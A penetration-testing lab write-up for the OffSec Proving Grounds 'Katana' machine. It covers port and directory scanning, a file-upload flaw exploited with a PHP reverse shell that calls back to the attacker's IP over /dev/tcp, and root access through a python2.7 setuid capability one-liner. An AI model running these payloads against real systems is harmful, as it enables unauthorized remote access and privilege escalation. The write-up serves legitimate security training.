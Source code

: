 ```yaml
---
title: OffSec PG - Katana
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.51.83`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.51.83`

OS Detection &rarr;  `OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                     |
| -------- | ----------- | ---------------------------------------------- |
| 21       | FTP         | vsftpd 3.0.3                                   |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                 |
| 7080     | HTTPS       | Litespeed httpd                                |
| 8088     | HTTP        | Litespeed httpd                                |
| 8715     | HTTP        | nginx 1.14.2                                   |

Therefore, a bunch of ports are open for http &rarr; 80, 7080, 8088, 8715, ftp on port 21 and ssh on port 22.

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.51.83 -f -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

The result for the port 7080 revealed nothing. The scan for port 80 resulted in the following finds &rarr;

- ebook/ (301)
- server-status (403)

Directories/files listed for port 8088 &rarr;

- index.html
- cgi-bin/ (301)
- img/ (301)
- docs/ (301)
- upload.html
- upload.php
- css/ (301)
- protected/ (301)
- blocked/ (301)
- phpinfo.php

The scan for the port 8715 revealed nothing.

---

## Exploitation

Looking at the status codes `200` for the enumeration of port 8088, there are two files `upload.html` and `upload.php`. These are connected and are an upload capability. Uploading a file on the port 8088 website allows for the file to be accessed on a different web server. This web server is that running on port 8715. However, after testing txt and php files, php files are accessible while txt files need a password. Therefore, a php file can be used to create a reverse shell. Used the following php payload for the reverse shell &rarr;

```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.49.187/3002 0>&1'");
?>
```

A good resource for a reverse shell is [Pentest Monkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

---

## Privilege Escalation

The reverse shell, therefore is the `www-data` user on the machine. This gives the user flag. Checked sudo capabilities for the user, but there were none. Search for setuid binaries did not give any results as well.

The next checks are to be made for capabilities. Used `getcap -r / 2>/dev/null` to list files with capabilities set. The result includes the entry &rarr; `/usr/bin/python2.7 = cap_setuid+ep`.

Therefore, the following python code can be invoked using the said binary to elevate privileges &rarr; `/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'`. This gives the root flag.

---
